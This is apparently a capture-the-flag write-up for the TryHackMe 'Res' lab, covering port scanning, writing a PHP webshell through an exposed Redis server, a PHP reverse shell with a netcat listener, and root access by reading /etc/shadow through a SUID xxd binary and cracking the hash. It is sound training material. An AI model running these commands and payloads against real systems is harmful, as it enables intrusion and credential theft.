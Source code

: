 ```yaml
---
title: "TryHackMe - Res"
author: Nasrallah
description: ""
date: 2022-09-03 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, redis, suid, easy, crack, john]
img_path: /assets/img/tryhackme/res
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Res](https://tryhackme.com/room/res) from [TryHackMe](https://tryhackme.com). We find a misconfigured databases that we exploit to get rce on the target and then a reverse shell. Then we find a binary with suid bit giving us the ability to read any file we want which leads to getting a root shell.

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.184.71
Host is up (0.085s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

We found port 80 open running Apache web server. Let's scan all port this time : `sudo nmap -p- --min-rate 5000 -sV -T4 {Target_ip}`

```terminal
Nmap scan report for 10.10.184.71
Host is up (0.080s latency).
Not shown: 65404 closed tcp ports (reset), 129 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
6379/tcp open  redis   Redis key-value store 6.0.7
```

We found another port running `redis` version 6.0.7

## Redis

We can connect to `redis` using the following command: `redis -h {Target_ip}`

```terminal
$ redis-cli -h 10.10.184.71
10.10.184.71:6379>
```

We can run the command `info` which will give up statistics about the redis server.

```terminal
10.10.184.71:6379> info                                                       
# Server                        
redis_version:6.0.7                                                           
redis_git_sha1:00000000         
redis_git_dirty:0                                                             
redis_build_id:5c906d046e45ec07                                               
redis_mode:standalone                                                         
os:Linux 4.4.0-189-generic x86_64                                             
arch_bits:64                                                                  
multiplexing_api:epoll                                                        
atomicvar_api:atomic-builtin                                                  
gcc_version:5.4.0
process_id:618           
run_id:3e2c7a6de54cd12ab2794d6990908d5416bb48d3
tcp_port:6379                
uptime_in_seconds:1579        
uptime_in_days:0        
hz:10                         
configured_hz:10               
lru_clock:989304          
executable:/home/vianka/redis-stable/src/redis-server
config_file:/home/vianka/redis-stable/redis.conf
io_threads_active:0 

[** SNIP **]

# Keyspace
10.10.184.71:6379>
```

The section that can be useful for us is **Keyspace** which provides us with the databases and the keys available on the server. Unfortunately, we couldn't find anything in this server.

We can see that the redis server is located in the home directory of a user named `vianka`, but it's not very useful for us.

Searching on the internet for ways to get RCE using redis i found the following [article](reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html) that describes how to get a php webshell with the following example.

```terminal
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK
```

We need to make some changes in the commands above.

We know that the web server running on the target is Apache, so we need to change the directory to **/var/www/html**.

We can leave the dbfilename as it is.

We change the php code to the following one that would give us remote code execution on the target.

```php
<?php system($_GET['cmd']); ?>
```

Let's do it.

```terminal
10.10.184.71:6379> config set dir /var/www/html
OK
10.10.184.71:6379> config set dbfilename redis.php
OK
10.10.184.71:6379> set test "<?php system($_GET['cmd']); ?>"
OK
10.10.184.71:6379> save
OK
10.10.184.71:6379> 
```

Now if we can go to `http://{target_ip/redis.php?cmd=}` to execute commands.

![](1.png)

We have code execution now.

# **Foothold**

To get a reverse shell, i uploaded [Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)'s php code to the target.

>Don't forget to change the ip address in the code to your tun0 ip.

![](2.png)

Now we setup a listener with `nc -lvnp 1234` and request the shell.php file.

![](3.png)

We're in.

# **Privilege Escalation**

I uploaded `linpeas` to the target and run it.

![](4.png)

We find that `xxd` has suid bit, let's check [GTFOBins](https://gtfobins.github.io/gtfobins/xxd/#suid).

![](5.png)


We can run the following command to read any file in the system.

```bash
xxd {filename} | xxd -r
```

To read the shadow file for example, run `xxd /etc/shadow | xxd -r`

![](6.png)

We have vianka's hash, we can crack it using `john`.

![](7.png)

We can now change user to `vianka` and then to root.

![](8.png)


---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---
